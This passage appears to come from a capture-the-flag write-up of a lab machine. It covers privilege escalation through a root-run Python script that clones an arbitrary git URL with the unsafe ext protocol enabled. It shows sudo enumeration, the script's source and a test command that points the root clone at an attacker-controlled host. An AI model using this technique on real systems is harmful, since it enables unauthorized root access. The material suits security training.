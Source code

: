 ## gitpython


```bash
prod@editorial:/home/dev/apps$ sudo -l

[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *

prod@editorial:/home/dev/apps$ cat 

/opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Very little to work with here, only possible vuln would be the git module. I'll check if I can ping a webserver with the git clone request of this script.

```bash
prod@editorial:/tmp/.raccoon$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py http://10.10.14.29:8081/test

Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always http://10.10.14.29:8081/test new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: repository 'http://10.10.14.29:8081/test/' not found
'
```
